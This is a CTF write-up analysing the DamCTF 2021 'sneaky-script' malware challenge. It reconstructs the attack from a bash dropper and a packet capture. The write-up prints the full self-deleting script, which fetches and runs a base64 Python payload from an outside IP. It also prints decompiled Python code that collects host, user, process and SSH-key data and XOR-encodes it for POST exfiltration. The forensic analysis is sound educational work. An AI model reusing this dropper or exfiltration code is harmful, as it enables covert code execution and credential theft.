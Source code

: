# DamCTF 2021
## malware/sneaky-script

Writeup by ssh1n0b1, nxblnd (Zenbuai-gumi)

## Task preview

#### `malware/sneaky-script (forensics/rev)`, by captainGeech

We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.

https://damctf-2021-prod-storage.storage.googleapis.com/uploads/331154a3259a40a796ed7cad0aa0c31e2c28484753e74ca18a91accf1342964e/files.zip


## Archive examination

At the start of this task we have an archive with two files:

`evidence.pcapng` - network data from the victim machine

`mal.sh` - malicious script

Firstly, let's open the script `mal.sh`:
```bash
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')

curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg


curl 54.80.43.46/images/banner.png?cache=NGI6ZTE6ZDY6YTg6NjY6YmUK -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg

```
This bash script:
1. Removes traces of itself
2. Checks for python3 installation
3. Checks for curl installation
4. Collects MAC-address
5. Downloads something to the `/tmp` folder
6. Executes this file using python
7. Removes the file

Now we have an IP address worth investigating: `54.80.43.46`
We also know that we should look for HTTP packets.
Let's open a second file in Wireshark and sort it by Source.
![](https://img.vos.uz/futt6foc.png)
(`evidence.pcapng`)

After looking through the traffic we can find the one we are looking for. Now we need to preview what this packet contains. RMB -> Follow -> HTTP Stream

![](https://img.vos.uz/innmqj4a.png)

If we take a closer look at the `mal.sh` we can see that this is Base64. Let's decode it using CyberChef:

![](https://img.vos.uz/4h1eekl8.png)

After decoding we get some kind of gibberish. However, we know that this will be executed with python and it looks like binary data.
Let's save it as a `.pyc` file and decompile it using uncompyle6.

## Stage 2

Turns out this was a python script and a lengthy one.
Let's start from the beginning (or in this case from the end) - `a()`

```python
def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))

    data = build_output(net, user, proc, ssh)
    send(data)
```

This function collects all the data from the host and after that calls the `send(data)` function. 

```python
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```

Another IP address, POST request and another Base64 encoding. Let's look through the `evidence.pcapng` once more:

![](https://img.vos.uz/fjjss8wq.png)
(`evidence.pcapng`)

Going back to `send(data)` we can see that all the data the script collected was formatted into JSON, XORed and then encoded with base64. This means that we need to do these steps backwards. Several lines of python can do the trick:

```python 
>>> import base64 
>>> msg = 'QxRZU.........'
>>> msg = base64.b64decode(msg)
>>> k = b'8675309'
>>> msg = bytes([msg[i] ^ k[(i % len(k))] for i in range(len(msg))])
>>> msg
```
Let's send the output to the json beautifier and look through it. 

![](https://img.vos.uz/byco6yw1.png)
(`pwnd`)
